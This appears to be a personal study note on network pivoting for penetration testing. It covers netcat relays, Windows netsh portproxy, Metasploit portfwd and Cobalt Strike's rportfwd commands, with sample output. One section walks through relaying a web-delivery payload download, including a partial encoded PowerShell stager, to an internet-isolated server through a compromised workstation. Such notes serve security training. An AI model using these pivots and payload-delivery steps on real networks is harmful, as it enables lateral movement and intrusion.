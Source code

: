```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Port Forwards]]  
___

## Description:  

### Local Port Forwards

Linux:
This is how you can pivot to another port on the machine to get around firewalls.
```
mkfifo /tmp/backpipe
nc -nlvp8080 0</tmp/backpipe | nc -v 127.0.0.1 80 1>/tmp/backpipe
```


### Reverse Port Forwards

### Powershell

The native `netsh` (short for Network Shell) utility allows you to view and configure various networking components on a machine, including the firewall.  There's a subset of commands called `interface portproxy` which can proxy both IPv4 and IPv6 traffic between networks.

The syntax to add a **v4tov4** proxy is:

```
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
```

-   **listenaddress** is the IP address to listen on (probably always 0.0.0.0).
-   **listenport** is the port to listen on.
-   **connectaddress** is the destination IP address.
-   **connectport** is the destination port.
-   **protocol** to use (always TCP).

on the relay,  create a portproxy that will listen on 4444 and forward the traffic to the target, also on 4444.

```
C:\>netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp
```
you can check it's there with `netsh interface portproxy show`.


Now from your host, instead of trying to connect to the target, connect to the portproxy relay
```
PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444

ComputerName     : 10.10.17.71
RemoteAddress    : 10.10.17.71
RemotePort       : 4444
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.15.75
TcpTestSucceeded : True
```

To remove the portproxy:
```
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

### CobaltStrike

### rportfwd Command


In many corporate environments, workstations are able to browse the Internet on ports 80 and 443, but servers have no direct outbound access (because why do they need it?).

Let's imagine that we already have foothold access to a workstation and have a means of moving laterally to a server - we need to deliver a payload to it but it doesn't have Internet access to pull it from our Team Server. We can use the workstation foothold as a relay point between our webserver and the target.

Host a scripted web delivery payload and then attemp to download it from the server

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```

You don't need to be a local admin to create reverse port forwards on high ports.

The syntax for the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`. On the workstation (forward host and port should point to your payload on the team server):

```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```

This will bind port **8080** on the foothold machine, which we can see with **netstat**.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Now any traffic hitting this port will be redirected to **10.10.5.120** on port **80**. On the server, instead of trying to hit **10.10.5.120:80**, we use **10.10.17.231:8080** (where 10.10.17.231 is the IP address of the workstation).
```
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```

To stop the reverse port forward, do `rportfwd stop 8080` from within the Beacon or click the **Stop** button in the **Proxy Pivots** view.


### rportfwd_local

Beacon also has a `rportfwd_local` command.  Whereas `rportfwd` will tunnel traffic to the Team Server, `rportfwd_local` will tunnel the traffic to the machine running the Cobalt Strike client.

This is particularly useful in scenarios where you want traffic to hit tools running on your local system, rather than the Team Server.

Take this Python http server as an example, whilst running the CS client on Kali:


```
root@kali:~# echo "This is a test" > test.txt
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/)
```
```
beacon> rportfwd_local 8080 127.0.0.1 8080
[+] started reverse port forward on 8080 to rasta -> 127.0.0.1:8080
```

This will bind port 8080 on the machine running the Beacon and will tunnel the traffic to port 8080 of the localhost running the Cobalt Strike client.

Then on another machine in the network, try to download the file.

```
PS C:\> hostname
wkstn-2

PS C:\> iwr -Uri http://wkstn-1:8080/test.txt

StatusCode : 200
StatusDescription : OK
Content : This is a test

```

### Metasploit

^651985

```
meterpreter > portfwd -h
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.110
kali@kali:~$ rdesktop 127.0.0.1
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:49 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
